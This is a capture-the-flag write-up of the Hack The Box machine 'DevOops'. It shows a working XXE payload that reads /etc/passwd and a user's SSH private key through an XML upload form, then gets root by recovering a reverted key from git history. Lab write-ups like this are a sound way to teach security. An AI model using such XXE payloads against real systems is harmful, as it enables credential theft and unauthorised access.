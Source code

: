 ```yaml
---
title: DevOops
author: fieldraccoon
date: 2020-06-21 
categories: [hack-the-box, linux]
tags: [hack-the-box, burp, xml, xxe, medium]
math: true
---
```

# DevOops

> skills this box involved:

- enumeration  
- git command use
- XXE file read

# USER

After carrying out our nmap scan we procede to the web browser to open up the http service and run a dirbuster scan on it
we can see that it comes back with two results.
```
/feed
/upload
```
Navigating to feed shows a static page and therefore nothing interesting however on the upload page there is a upload section where it allows us to upload xml files. We can now start creating a payload to get us code execution. We loads up burpSuite and intercept the request. The website mentions that we must have Author, Subject and Content tags in our xml so of course we add these.
```xml
<test>
  <Author>fieldraccoon</Author>
  <Subject>fieldraccoon</Subject>
  <Content>fieldraccoon</Content>
</test>
```
this is the data we add to our initial payload and we get a request back form the server.

```bash
PROCESSED BLOGPOST: 
  Author: fieldraccoon
 Subject: fieldraccoon
 Content: fieldraccoon
 URL for later reference: /uploads/exploit.xml
 File path: /home/roosa/deploy/src
 ```
 We see that there is a user called roosa in the file path. This is the user for this box. We now modify our payload to try and get code execution. This is the exploit:
 
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>

<test>
  <Author>fieldraccoon</Author>
  <Subject>&file;</Subject>
  <Content>fieldraccoon</Content>
</test>
```
This reads the /etc/passwd file and confirms that the user roosa is the correct person we are after for this box.
We now try to grab the ssh key for the user by changing `file:///etc/passwd` to `file:///home/roosa/.ssh/id_rsa` This works perfectly and we read the ssh key. we copy this file to our box and ssh as roosa and read the user flag.

# ROOT
as we ssh we find that there is a git directory in /home/roosa/work/blogfeed/.git
we run `git log` to see if we find anything interesting and luckily we do.
```xml
commit 33e87c312c08735a02fa9c796021a4a3023129ad
Author: Roosa Hakkerson <roosa@solita.fi>
Date:   Mon Mar 19 09:33:06 2018 -0400

    reverted accidental commit with proper key
```
This means that the user had an old ssh key reverted(its the root ssh key) so we need to try and find a way to get this.
We run `git show 33e87c312c08735a02fa9c796021a4a3023129ad` and it shows us the root key,
We copy it to our box once again, give it appropriate permissions and ssh as root.

Please drop me some respecet if you found my writeup worth the read :)

https://www.hackthebox.eu/home/users/profile/246314

